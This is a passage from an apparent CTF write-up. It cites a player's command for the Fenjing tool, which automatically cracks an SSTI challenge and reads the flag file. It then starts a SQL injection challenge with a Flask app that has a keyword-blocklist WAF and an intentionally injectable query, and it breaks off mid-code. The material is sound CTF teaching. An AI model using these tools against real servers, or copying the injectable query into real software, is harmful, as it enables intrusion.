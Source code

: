 > Note: After the competition, i found other solutions from other CTF players that are so cool.
> - A tool from Chinese dude i just found from this CTF, all you need is throw the url & parameter into this: [Link](https://github.com/Marven11/Fenjing) 
> ```
> pip install fenjing
> python3 -m fenjing crack --url 'http://34.124.244.195:1338/' --method GET --inputs "c"
> $>> cat /app/flag.txt
> ```
> - And another solution so crazy just like his nickname :smile: 

![image](https://hackmd.io/_uploads/SJjQjfbNT.png)



quibuu
---
**Author:** onsra
**Description:** The challenge give us a `app.py` and a database name `hehe.db`. So it maybe SQL injection.

Review code:

`App.py`:
```python
from flask import Flask, render_template, request
import random
import re
import urllib.parse
import sqlite3

app = Flask(__name__)


def waf_cuc_chill(ans):
    # idk, I thought too much of a good thing
    ans = urllib.parse.quote(ans)
    pattern = re.compile(r'(and|0r|substring|subsrt|if|case|cast|like|>|<|(?:/\%2A.*?\%2A/)|\\|~|\+|-|when|then|order|name|url|;|--|into|limit|update|delete|drop|join|version|not|hex|load_extension|round|random|lower|replace|likely|iif|abs|char|unhex|unicode|trim|offset|count|upper|sqlite_version\(\)|#|true|false|max|\^|length|all|values|0x.*?|left|right|mid|%09|%0A|%20|\t)', re.IGNORECASE)
    
    if pattern.search(ans):
        return True
    return False

@app.route("/", methods=["GET"])
def index():
    ran = random.randint(1, 11)
    id, ans= request.args.get("id", default=f"{ran}"), request.args.get("ans", default="")

    if not (id and str(id).isdigit() and int(id) >= 1 and int(id) <= 1301):
        id = 1
    

    db = sqlite3.connect("hehe.db")
    cursor = db.execute(f"SELECT URL FROM QuiBuu WHERE ID = {id}")
    img = cursor.fetchone()[0]

    if waf_cuc_chill(ans):
        return render_template("hack.html")
    
    cursor = db.execute(f"SELECT * FROM QuiBuu where ID = {id} AND Name = '{ans}'")
    result = cursor.fetchall()

    check = 0
    if result != []:
```